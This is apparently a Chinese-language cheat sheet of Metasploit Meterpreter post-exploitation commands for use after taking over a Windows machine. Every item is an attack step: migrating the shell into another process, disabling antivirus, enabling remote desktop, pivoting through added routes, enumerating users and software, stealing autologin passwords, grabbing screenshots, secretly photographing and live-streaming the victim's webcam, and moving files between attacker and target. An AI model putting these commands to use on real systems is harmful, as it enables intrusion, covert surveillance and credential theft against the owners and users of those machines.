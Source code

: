 (ps.拿到了目标机权限后，进入meterpreter)
1，先进行进程迁移输入 `ps` 查看所有的进程，使用 `getpid` 查看自己的Meterpreter Shell的进程号，然后选择一个稳定的进程使用 `migrate 448` 命令把Shell迁移到448的进程中(ps.如果不行的话使用自动迁移进程命令，自己网上找)

---

2，系统命令在`meterpreter`中
- 输入sysinfo命令查看目标机的系统信息
- 输入`run post/windows/gather/checkvm` 检查目标机是否在虚拟机上
- 输入`idletime`可以查看目标及最近运行的时间
- 输入route命令查看目标及完整的网络设置
- 可以输入`background` 将当前会话放到后台，再使用`session`查看所有的火会话，使用`session -i -数字` 打开其中的会话
- 输入`run post/windows/manage/killav` 关闭目标机的系统杀毒软件
- 输入`run post/windows/manage/enable_rdp`命令启动目标机的远程桌面协议，也就是常说的3389端口
- 然后输入`run post/multi/manage/autoroute`命令查看目标机的本地子网连接情况
- 接着进行跳转。先输入`background`命令将当前Meterpreter终端隐藏在后台，然后输入`route add 192.168.232.1 255.255.255.0 1`命令添加路由，添加成功后输入`route print `命令查看
- 可以看到一条地址为192.168.232.1的路由已经被添加到已经攻陷的主机的路由表中，这样就可以借助被攻陷的主机进行对其他网络的攻击了
- 接着输入`run post/windows/gather/enum_logged_on_users`命令列举当前有多少用户登录了目标机
- 继续输入`run post/windows/gather/enum_applications`命令列举安装在目标机上的应用程序
- 很多用户习惯将计算机设置为自动登录，下面这个命令可以抓取到自动登录的用户名和密码`run windows/gather/credentials/windows_autologin`
- 使用`load espia`命令加载该插件，然后输入`screegrab`可以抓取此时目标及的屏幕截图（ps.`screenshot`也是同样的效果）
- 输入 `webcam_list`查看目标机有无摄像头
- 输入`webcam_snap`命令打开目标机摄像头，拍一张照片
- 输入`webcam_stream`命令甚至还可以开启直播模式，上面这句返回的地址用浏览器打开就可以查看抓取的视频
- 输入`shell`进入目标机的shell下面
- 输入`exit`可以退出当前进行的
- `pwd`或`getwd`查看当前处于目标机的那个目录
- `getlwd`查看当前处于本地的那个目录
- `ls`列出当前目录的所有文件
- `cd`切换目录
- `search -f *.txt -d c:\`可以搜索C盘所有以“.txt”为扩展名的文件，其中-f参数用于指定搜索文件模式，-d参数用于指定再哪个目录下进行搜索
- `download c:/test.txt \root:` 下载目标机的test.txt文件到攻击机root下
- `upload /root/test.txt c:\`上传攻击机root目录下的test.txt文件到目标机c盘下